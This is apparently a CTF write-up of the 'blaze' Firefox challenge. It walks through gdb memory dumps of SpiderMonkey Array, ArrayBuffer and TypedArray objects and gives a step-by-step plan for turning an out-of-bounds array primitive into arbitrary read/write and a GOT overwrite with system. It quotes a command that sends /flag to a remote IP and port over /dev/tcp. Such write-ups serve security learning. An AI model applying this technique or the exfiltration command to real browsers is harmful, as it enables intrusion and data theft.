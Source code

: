 The challenge gives us an OOB read/write primitive from Arrays (see [patch](blaze.patch)), the newly added `blaze` method sets the length of any Array it's called on to 420. 

Recommended readings are:

* [Attacking JavaScript Engines](http://phrack.org/papers/attacking_javascript_engines.html)
* [https://bruce30262.github.io/2017/12/15/Learning-browser-exploitation-via-33C3-CTF-feuerfuchs-challenge/](Learning browser exploitation via 33C3 CTF feuerfuchs challenge)
* [https://github.com/saelo/feuerfuchs/blob/master/exploit/pwn.js](feuerfuchs exploit by saleo): I shamelessly appropriated the Int64 and memory classes from this


## Debugging environment

Since the libxul.so we were given is close to 2GB in size and gdb occasionally consumed a ton of memory when attached to the firefox process, I didn't feel like adding virtualization into the mix. Luckily the Dockerfile is based on Ubuntu 16.04, just like my desktop, though it shouldn't matter much besides the libc offsets. To get a somewhat decent debugging experience, I did the following:


* the challenge contains a Firefox profile that disables sandboxing. I also set the content process limit in the performance settings to 1, so that I don't have to mess too much with finding the right content process
* [modified](gdb.py) a gdb command to re-attach to the content process more easily
* checkout the source tree and compile it (so that generated source files are also available) according to the README, then `set substitute-path /home/ubuntu /ctf/blaze18/src` in gdb to get sources to display
* the only breakpoint I used was in the `blaze` function (`b Array.cpp:1602`)


## Messing around

After playing around a bit with the primitive, it seemed that we were only able to read and write NaN-boxed values, e.g. the integer 96 is represented as `0xfff8800000000060`. Then I allocated some Arrays, TypedArrays and ArrayBuffers and noticed that Arrays (with inline data) and TypedArrays were placed next to each other, while ArrayBuffers (with inline data) were allocated somewhere else. Let's examine how these objects look in memory.

### Arrays in memory

An empty Array looks like this:

```
00:0000│ rdx  0x7fcecfd05d48 —▸ 0x7fcec9157040 —▸ 0x7fcedeb252a0 (js::ArrayObject::class_) —▸ 0x7fcedcb4f29b ◂— ...
01:0008│      0x7fcecfd05d50 —▸ 0x7fcec91e3f90 —▸ 0x7fcecbe89f60 —▸ 0x7fcedeb252a0 (js::ArrayObject::class_) ◂— ...
02:0010│      0x7fcecfd05d58 ◂— 0x0
03:0018│      0x7fcecfd05d60 —▸ 0x7fcecfd05d78 ◂— 0x2f2f2f2f2f2f2f2f ('////////')   <-  `pointer to the elements`
04:0020│      0x7fcecfd05d68 ◂— 0x0
05:0028│      0x7fcecfd05d70 ◂— 0x6
06:0030│      0x7fcecfd05d78 ◂— 0x2f2f2f2f2f2f2f2f ('////////')
```

At offset 0x18 is the pointer to the actual data in the array. This points to right after the Array object since our Array is small (well, empty). I noted that the pointer isn't boxed, so it didn't seem possible to directly write to it via the primitive by placing two Arrays next to each other. Let's move on.


### ArrayBuffer

I created an ArrayBuffer with length 96 (from what I read this is the largest size with data still inlined) and filled it with the byte values from 0 to 96 through an Uint8array. The results is:

```
00:0000│   0x7fcec913d060 —▸ 0x7fcec919de50 —▸ 0x7fcedeb51480 (js::ArrayBufferObject::class_) —▸ 0x7fcedcad8971 ◂— ...
01:0008│   0x7fcec913d068 —▸ 0x7fcec9123970 —▸ 0x7fcecbe89fe0 —▸ 0x7fcedeb51480 (js::ArrayBufferObject::class_) ◂— ...
02:0010│   0x7fcec913d070 ◂— 0x0
03:0018│   0x7fcec913d078 —▸ 0x7fceddb0bda0 (emptyElementsHeader+16) ◂— add    byte ptr [rax], al
04:0020│   0x7fcec913d080 ◂— 0x3fe76489e850   <- `this is the shifted to the right by one pointer to the start of the actual buffer`
05:0028│   0x7fcec913d088 ◂— 0xfff8800000000060 /* '`' */  <- length of the ArrayBuffer
06:0030│   0x7fcec913d090 ◂— 0xfffe7fcecfd05848
07:0038│   0x7fcec913d098 ◂— 0xfff8800000000000
08:0040│   0x7fcec913d0a0 ◂— 0x706050403020100
09:0048│   0x7fcec913d0a8 ◂— 0xf0e0d0c0b0a0908
0a:0050│   0x7fcec913d0b0 ◂— 0x1716151413121110
0b:0058│   0x7fcec913d0b8 ◂— 0x1f1e1d1c1b1a1918
0c:0060│   0x7fcec913d0c0 ◂— 0x2726252423222120 (' !"#$%&\'')
0d:0068│   0x7fcec913d0c8 ◂— 0x2f2e2d2c2b2a2928 ('()*+,-./')
0e:0070│   0x7fcec913d0d0 ◂— 0x3736353433323130 ('01234567')
0f:0078│   0x7fcec913d0d8 ◂— 0x3f3e3d3c3b3a3938 ('89:;<=>?')
10:0080│   0x7fcec913d0e0 ◂— 0x4746454443424140 ('@ABCDEFG')
11:0088│   0x7fcec913d0e8 ◂— 0x4f4e4d4c4b4a4948 ('HIJKLMNO')
12:0090│   0x7fcec913d0f0 ◂— 0x5756555453525150 ('PQRSTUVW')
13:0098│   0x7fcec913d0f8 ◂— 'XYZ[\\]^_'
14:00a0│   0x7fcec913d100 ◂— 0x0
```

We can see what is likely the boxed length of the ArrayBuffer at offset 0x28. At offset 0x20 is another interesting member, the data pointer of the ArrayBuffer right-shifted by one. Also, of interest is the pointer into libxul at offset 0x18, which we will later leak.

```
pwndbg> p/x 0x3fe76489e850<<1
$1 = 0x7fcec913d0a0
```

Then, from 0x50 we can see the actual byte values. Since ArrayBuffers ended up very far from my Arrays, I moved on.


### TypedArrays

Creating an Uint8Array referencing the previous ArrayBuffer results in:

```
0c:0060│      0x7fcecfd05da8 —▸ 0x7fcec919dfd0 —▸ 0x7fcedeb5ce30 (js::TypedArrayObject::classes+48) —▸ 0x7fcedcad6202 ◂— ...
0d:0068│      0x7fcecfd05db0 —▸ 0x7fcec914a510 —▸ 0x7fcec91400a0 —▸ 0x7fcedeb5ce30 (js::TypedArrayObject::classes+48) ◂— ...
0e:0070│      0x7fcecfd05db8 ◂— 0x0
0f:0078│      0x7fcecfd05dc0 —▸ 0x7fceddb0bda0 (emptyElementsHeader+16) ◂— add    byte ptr [rax], al
10:0080│      0x7fcecfd05dc8 ◂— 0xfffe7fcec913d060						<-  `Nan-boxed pointer to the ArrayBuffer class`
11:0088│      0x7fcecfd05dd0 ◂— 0xfff8800000000060 /* '\`' */			<-  `AB length`
12:0090│      0x7fcecfd05dd8 ◂— 0xfff8800000000000						<- 	`offset?`
13:0098│      0x7fcecfd05de0 —▸ 0x7fcec913d0a0 ◂— 0x706050403020100		<-  `ptr to the actual beginning of the data in the AB, this is used in the set/get operations directly`
```

What's interesting to note is that TypedArrays cache the length and data pointer of the underlying ArrayBuffer. Also, the length is NaN-boxed, and the TypedArray ended up right next to our plain Array, from which we can trigger the OOB read/write. Meaning we can overwrite the cached length of the Uint8Array, effectively having OOB read/write relative to an ArrayBuffer, but without the restriction of only being able to manipulate boxed values.


So the plan is to:

* allocate two adjacent ArrayBuffers, both with sizes that result in inlined data
* allocate an empty Array and an Uint8Array that references the first ArrayBuffer, these end up far from the ArrayBuffers and need to be adjacent (the heap layout was very deterministic with regard to adjacency during testing).
* trigger `blaze` on the Array, so that we gain boxed r/w access to the Uint8Array
* enlarge the cached length of the Uint8Array, so that we can access the second ArrayBuffer through it
* leak the libxul pointer from the second ArrayBuffer through the Uint8Array
* achieve arbitrary r/w by modifying the data ptr and length of the second ArrayBuffer and creating a new TypedArray referencing it (and doing this every time we do a read or write)
* from here, I followed the route taken by saleo in his feuerfuchs exploit: replace the memmove .got entry in libxul with system, call copyWithin to trigger it with our controlled data and use `/bin/bash -c "cat /flag >/dev/tcp/IP/PORT"` to get the flag.


This worked great on my desktop, however, it failed when I spun up the docker container. According to the README, `/firefox/dist/bin/firefox --headless <url>` is the command used to run our exploit. In an attempt to find out what's happening, I launched firefox with the `-screenshot` flag, which is not, so surprisingly, supposed to take a screenshot of the website. What was surprising is that the exploit started working. Then I noticed that the docker build had some errors, my version of docker didn't support the --chown flag of ADD that was used in the Dockerfile. The end result was that the profile that disabled sandboxing wasn't copied over to the image and the exploit failed because of the sandbox (which the -screenshot flag disabled). After getting everything to work locally and receiving some help with the PoW from niklasb, it was time to light it up. 

All in all, a blaze to remember.

~The End~